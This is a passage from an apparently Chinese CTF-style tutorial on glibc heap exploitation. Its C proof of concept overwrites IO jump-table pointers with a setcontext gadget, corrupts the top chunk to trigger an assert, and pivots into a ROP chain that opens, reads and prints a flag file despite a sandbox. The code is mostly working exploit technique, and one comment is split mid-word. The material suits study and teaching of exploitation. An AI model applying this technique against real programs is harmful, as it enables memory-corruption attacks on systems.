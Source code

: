 ```plain

void setROP()
{
    uint32_t i = 0;
    ROP[i++] = pop_rax_ret;
    ROP[i++] = 2;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = (size_t)FLAG;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = 0;
    ROP[i++] = syscall_ret;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 3;
    ROP[i++] = pop_rdx_r12;
    ROP[i++] = 0x100;
    ROP[i++] = 0;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = (size_t)(FLAG + 0x10);
    ROP[i++] = (size_t)read;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 1;
    ROP[i++] = (size_t)write;
}
int main() {
    setvbuf(stdin,0LL,2,0LL);
    setvbuf(stdout,0LL,2,0LL);
    setvbuf(stderr,0LL,2,0LL);
    sandbox();
    libc_base  = ((size_t)setvbuf) - 0x81630;
    printf("LIBC:\t%#lx\n",libc_base);

    size_t magic_gadget = libc_base + 0x53030 + 61; // setcontext + 61
    size_t IO_helper = libc_base + 0x1E48C0; // _IO_hel
    per_jumps;
    size_t SYNC = libc_base + 0x1E5520; // sync pointer in _IO_file_jumps
    setROP();
    *((size_t*)IO_helper + 0xA0/8) = ROP; // 设置rsp
    *((size_t*)IO_helper + 0xA8/8) = ret; // 设置rcx 即 程序setcontext运行完后会首先调用的指令地址
    *((size_t*)SYNC) = magic_gadget; // 设置fflush(stderr)中调用的指令地址
    // 触发assert断言,通过large bin chunk的size中flag位修改,或者top chunk的inuse写0等方法可以触发assert
    size_t *top_size = (size_t*)((char*)malloc(0x10) + 0x18);
    *top_size = (*top_size)&0xFFE; // top_chunk size改小并将inuse写0,当top chunk不足的时候,会进入sysmalloc中,其中有个判断top_chunk的size中inuse位是否存在
    malloc(0x1000); // 触发assert
    _exit(-1);
}
```

效果如图所示：

[![](assets/1698893163-59164fe26e9188961f3287a4b2a967f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028185931-126273d6-7581-1.png)
